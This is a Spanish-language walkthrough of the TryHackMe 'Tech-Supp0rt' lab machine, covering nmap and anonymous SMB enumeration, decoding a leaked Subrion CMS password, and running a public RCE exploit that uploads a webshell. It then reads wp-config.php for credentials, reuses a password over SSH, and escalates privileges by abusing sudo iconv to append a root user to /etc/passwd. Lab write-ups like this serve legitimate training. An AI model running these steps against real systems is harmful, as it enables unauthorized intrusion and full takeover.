### **Tutorial: Explotación de la máquina Tech-Supp0rt– TryHackMe**

Este laboratorio muestra el proceso de reconocimiento, enumeración, acceso inicial y escalada de privilegios en una máquina vulnerable del laboratorio de TryHackMe.

## 1. Conexión a la VPN de TryHackMe

Para acceder a las máquinas del laboratorio es necesario conectarse previamente a la VPN de TryHackMe. Esto crea un túnel seguro entre la máquina Kali Linux y la red privada donde se encuentran los sistemas vulnerables.

### 1.1 Conexión mediante OpenVPN

Desde la terminal de Kali se ejecuta el siguiente comando utilizando el archivo .ovpn descargado desde la plataforma:

```bash
sudo openvpn /home/nerea/Descargas/eu-central-1-nereacandonramos-regular.ovpn
```

Si la conexión se establece correctamente aparecerá el siguiente mensaje:

```bash
Initialization Sequence Completed
```

Esto indica que la conexión VPN se ha realizado correctamente.
Si vemos que no funciona, probar otro archivo de configuración hasta que se vea conectado, en vez de central, poner west-3 importante.


## 2. Enumeración inicial – Escaneo con Nmap

En esta fase se realiza un reconocimiento inicial del objetivo para identificar los servicios expuestos y posibles vectores de ataque.

Se ejecuta el siguiente comando:

```bash
nmap -p- -sV -sC 10.129.170.255
```


Explicación del comando:
- -p- → Escanea los 65535 puertos
- -sV → Detecta versiones de los servicios
- -sC → Ejecuta scripts básicos de enumeración

Los resultados mostraron que la máquina tenía los siguientes puertos abiertos:

La máquina está corriendo Ubuntu y tiene el nombre de host "TECHSUPPORT". También se observó que la autenticación SMB está configurada para usar la cuenta "guest" con nivel de acceso "user".

## 2. Enumeración del servicio SMB

Tras identificar los puertos 139 y 445 abiertos, se procede a enumerar el servicio SMB para detectar posibles recursos compartidos accesibles sin autenticación.

Se ejecuta el siguiente comando:

```bash
smbclient -L //10.129.170.255 -N
```


Explicación del comando:
- -L → Lista los recursos compartidos disponibles en el servidor
- -N → Indica que no se proporcione contraseña (acceso como invitado)

## 3. Análisis de recursos compartidos SMB

Tras identificar el recurso compartido **websvr**, se procede a acceder a él sin autenticación:

```bash
smbclient //10.129.170.255/websvr -N
```


Una vez dentro, se listan los archivos disponibles:

```bash
ls
```
Resultados obtenidos:

Se encuentra el siguiente archivo:

```bash
enter.txt
```

Descarga del archivo

Se procede a descargar el archivo para su análisis:

```bash
get enter.txt
```


## 4. Análisis del archivo enter.txt

Tras descargar el archivo `enter.txt`,  salimos de smb con exit y se procede a visualizar su contenido:

```bash
cat enter.txt
```


Resultados obtenidos:

El archivo contiene información relevante sobre la infraestructura del sistema:

- Referencia a un CMS llamado Subrion
- Ruta web identificada: /subrion
Credenciales encontradas:
- Usuario: admin
- Contraseña: 7sKvntXdPEJaxazce9PXi24zaFrLiKWCk

La contraseña hay que descodificarla, utilizaremos este comando para hacerlo

```bash
echo "7sKvntXdPEJaxazce9PXi24zaFrLiKWCk" | base58 -d | base32 -d | base64 -d
```


El resultado de ese comando es esta contraseña:

```bash
Scam2021   
```

## 5. Acceso al panel de administración (Subrion)

Se accede al panel de administración del CMS Subrion a través del navegador:

```bash
http://10.129.170.255/subrion/panel
```


Se introducen las credenciales obtenidas previamente:

- Usuario: admin
- Contraseña: Scam2021 


## 6. Explotación de la vulnerabilidad en Subrion

Una vez obtenido acceso al panel de administración del CMS Subrion, se procede a buscar vulnerabilidades conocidas asociadas a este software.

Para ello, se utiliza la herramienta `searchsploit`:

```bash
searchsploit subrion
```


Tras buscar vulnerabilidades con `searchsploit`, se identifica el siguiente exploit relevante:

- **Subrion CMS 4.2.1 - Arbitrary File Upload**

Ruta del exploit:

```bash
php/webapps/49876.py
```


---

### 6.1 Descarga del exploit

Se descarga el exploit a la máquina local:

```bash
searchsploit -m php/webapps/49876.py
```


### 6.2 Ejecución del exploit

Una búsqueda rápida en Google muestra que existe una vulnerabilidad CVE para la ejecución remota de código en esta versión de Subrion CMS (4.2.1).

Prueba de concepto del exploit encontrada aquí:
 https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE/blob/main/SubrionRCE.py

```bash
sudo python3 SubrionRCE.py -u http://10.129.138.145/subrion/panel/ -l admin -p Scam2021
```
 Poner la ip de tu máquina victima



 Explicación de los parámetros:
- -u → URL del CMS vulnerable
- -l → usuario válido del panel
- -p → contraseña del usuario

Resultado de la explotación:
El exploit realiza automáticamente las siguientes acciones:

- Conexión al panel de administración
- Autenticación con las credenciales obtenidas
- Generación de un nombre aleatorio para la webshell
- Subida de una webshell al servidor


## 7. Enumeración de usuarios y búsqueda de vectores de escalada de privilegios

Tras obtener acceso inicial al sistema mediante la explotación del CMS Subrion, el siguiente objetivo es identificar posibles vías para escalar privilegios y obtener acceso completo al sistema.

### 7.1 Identificación de usuarios del sistema

Se comienza enumerando los usuarios disponibles en el sistema:

```bash
ls -la /home
```


Resultado:

```bash
drwxr-xr-x  4 scamsite scamsite 4096 May 29  2021 scamsite
```


Se identifica el usuario scamsite, que será el principal objetivo para la escalada de privilegios.


### 7.3 Análisis del archivo de configuración

Los sistemas CMS suelen almacenar credenciales en archivos de configuración. En este caso, se analiza el archivo:

```bash
 cat /var/www/html/wordpress/wp-config.php
 ```

 


 ## 8. Acceso por SSH

Se intentó inicialmente el acceso mediante el usuario support, pero la autenticación falló:

```bash
ssh support@10.129.138.145
```

Posteriormente, se probó con el usuario identificado durante la enumeración (scamsite), reutilizando la contraseña obtenida previamente:

```bash
ssh scamsite@10.129.138.145
```

Autenticación:

```bash
Password: ImAScammerLOL!123!
```

El acceso fue exitoso, obteniendo una shell interactiva en el sistema.

 


## 9. Escalada de privilegios
11.1 Enumeración de sudo

```bash
sudo -l
```

Resultado:

```bash
(ALL) NOPASSWD: /usr/bin/iconv
```

## 10. Abuso de iconv

Se copia el archivo /etc/passwd:

```bash
sudo iconv -f utf-8 -t utf-8 /etc/passwd > /tmp/passwd
```

Se añade usuario root:

```bash
echo 'hacker:$1$j4JIS7/h$8Ni412J.2zvlsczLyucl1.:0:0:root:/root:/bin/bash' >> /tmp/passwd
```

Se sobrescribe el archivo:

```bash
sudo iconv -f utf-8 -t utf-8 /tmp/passwd -o /etc/passwd
```